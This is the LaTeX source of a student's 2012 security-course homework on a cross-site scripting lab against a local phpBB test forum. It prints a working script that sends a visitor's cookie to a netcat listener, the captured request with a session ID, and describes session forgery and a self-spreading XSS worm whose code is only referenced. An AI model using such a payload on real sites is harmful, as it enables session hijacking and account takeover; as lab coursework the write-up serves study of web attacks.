\documentclass[12pt]{article}
\usepackage[hmargin=30mm,vmargin=30mm]{geometry}
\usepackage{graphicx}
\usepackage{listings}
\lstset{breaklines=true, language=Java, numbers=left, frame=shadowbox, basicstyle=\scriptsize}
\begin{document}

\title{CS4238 Homework 2}
\author{Laurence Putra Franslay (U096833E)}
\date{22th Oct 2012}
\maketitle

\section{Task 3.1}
An alert box containing the text `XSS' pops up.\\


\includegraphics[width=160mm]{task31.png}



\section{Task 3.2}
An alert box containing the contents of the cookie pops up.\\


\includegraphics[width=160mm]{task32.png}
\pagebreak



\section{Task 3.3}
\subsection{How the attack is done}
Script inserted is as below. The browser will send a request to 127.0.1.1 (I'm booting up a VM from the HDD), port 5555, with the variable c being the cookie.
\lstset{caption=Script, frame=single}
\begin{lstlisting}
<script>document.write('<img src="http://127.0.1.1:5555?c='+ document.cookie + '"">');</script>
\end{lstlisting}

Netcat(nc) is launched to listen to port 5555.
\lstset{caption=Listening Command, frame=single}
\begin{lstlisting}
nc -l 5555
\end{lstlisting}

When the page is loaded, it will make a call to \emph{http://127.0.1.1:5555} and pass the variable \emph{c} which contains the cookie of the user. Netcat, which is listening on port 5555, will then recieve the request, and print it out on the terminal screen.

\subsection{Result}
\lstset{caption=HTTP Request, frame=single}
\begin{lstlisting}
GET /?c=phpbb2mysql_data=a%3A2%3A%7Bs%3A11%3A%22autologinid%22%3Bs%3A0%3A%22%22%3Bs%3A6%3A%22userid%22%3Bs%3A1%3A%222%22%3B%7D;%20phpbb2mysql_sid=a48278d8c065062908d74694211d6d08;%20phpbb2mysql_t=a%3A29%3A%7Bi%3A2%3Bi%3A1350905947%3Bi%3A3%3Bi%3A1350874877%3Bi%3A4%3Bi%3A1350976737%3Bi%3A5%3Bi%3A1350876330%3Bi%3A6%3Bi%3A1350902146%3Bi%3A7%3Bi%3A1350902719%3Bi%3A8%3Bi%3A1350903518%3Bi%3A9%3Bi%3A1350903571%3Bi%3A10%3Bi%3A1350903703%3Bi%3A11%3Bi%3A1350903996%3Bi%3A12%3Bi%3A1350904099%3Bi%3A13%3Bi%3A1350905066%3Bi%3A14%3Bi%3A1350912092%3Bi%3A15%3Bi%3A1350905914%3Bi%3A16%3Bi%3A1350909515%3Bi%3A17%3Bi%3A1350909869%3Bi%3A18%3Bi%3A1350910491%3Bi%3A19%3Bi%3A1350910473%3Bi%3A20%3Bi%3A1350910511%3Bi%3A21%3Bi%3A1350910525%3Bi%3A22%3Bi%3A1350910620%3Bi%3A23%3Bi%3A1350961095%3Bi%3A24%3Bi%3A1350912072%3Bi%3A25%3Bi%3A1350912344%3Bi%3A26%3Bi%3A1350912488%3Bi%3A27%3Bi%3A1350959880%3Bi%3A28%3Bi%3A1350959882%3Bi%3A29%3Bi%3A1350961375%3Bi%3A30%3Bi%3A1350961697%3B%7D HTTP/1.1
Host: 127.0.1.1:5555
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:16.0) Gecko/20100101 Firefox/16.0
Accept: image/png,image/*;q=0.8,*/*;q=0.5
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://www.xsslabphpbb.com/viewtopic.php?p=4


\end{lstlisting}
\lstset{caption=Cookie, frame=single}
\begin{lstlisting}
phpbb2mysql_data=a%3A2%3A%7Bs%3A11%3A%22autologinid%22%3Bs%3A0%3A%22%22%3Bs%3A6%3A%22userid%22%3Bs%3A1%3A%222%22%3B%7D;%20phpbb2mysql_sid=a48278d8c065062908d74694211d6d08;%20phpbb2mysql_t=a%3A29%3A%7Bi%3A2%3Bi%3A1350905947%3Bi%3A3%3Bi%3A1350874877%3Bi%3A4%3Bi%3A1350976737%3Bi%3A5%3Bi%3A1350876330%3Bi%3A6%3Bi%3A1350902146%3Bi%3A7%3Bi%3A1350902719%3Bi%3A8%3Bi%3A1350903518%3Bi%3A9%3Bi%3A1350903571%3Bi%3A10%3Bi%3A1350903703%3Bi%3A11%3Bi%3A1350903996%3Bi%3A12%3Bi%3A1350904099%3Bi%3A13%3Bi%3A1350905066%3Bi%3A14%3Bi%3A1350912092%3Bi%3A15%3Bi%3A1350905914%3Bi%3A16%3Bi%3A1350909515%3Bi%3A17%3Bi%3A1350909869%3Bi%3A18%3Bi%3A1350910491%3Bi%3A19%3Bi%3A1350910473%3Bi%3A20%3Bi%3A1350910511%3Bi%3A21%3Bi%3A1350910525%3Bi%3A22%3Bi%3A1350910620%3Bi%3A23%3Bi%3A1350961095%3Bi%3A24%3Bi%3A1350912072%3Bi%3A25%3Bi%3A1350912344%3Bi%3A26%3Bi%3A1350912488%3Bi%3A27%3Bi%3A1350959880%3Bi%3A28%3Bi%3A1350959882%3Bi%3A29%3Bi%3A1350961375%3Bi%3A30%3Bi%3A1350961697%3B%7D
\end{lstlisting}


\includegraphics[width=160mm]{task33.png}
\pagebreak


\section{Task 3.4}
\subsection{Important components of message forgery}
For the case of PHPBB, there are 2 key components to trick the system into believing the message is legit, the \emph{cookies} and \emph{POST variables}. The POST variable named \emph{sid} has to contain the value of the variable \emph{phpbb2mysql\_sid} which resides in the cookie. All of this data can be retrieved from the cookie value.

\subsection{Actual Implementation of forgery and spoofing}
Screenshot of stolen cookie\\

\includegraphics[width=160mm]{task33.png}

Code to spoof the user using Java.
\lstset{caption=HTTPSimpleForge.java, frame=single}
\lstinputlisting{HTTPSimpleForge.java}

Result of running the code below\\

\includegraphics[width=160mm]{task34.png}
\pagebreak


\section{Task 3.5}
\subsection{Mechanics of XSS worm}
There are 2 key parts to writing an XSS worm for this case, 1) Sending an Ajax request, 2) Extracting the sid to put into the content automatically. A function getCookie was written, where getCookie takes in one argument which is the key/name of the variable whose contents we are interested in to serve the second part.

\subsection{Code of XSS worm}
\lstset{caption=XSS Worm, frame=single}
\lstinputlisting{js.html}

\subsection{Result}
Upon hitting a page with the above mentioned code in it,the following post was posted.\\

\includegraphics[width=160mm]{task35.png}
\enddocument
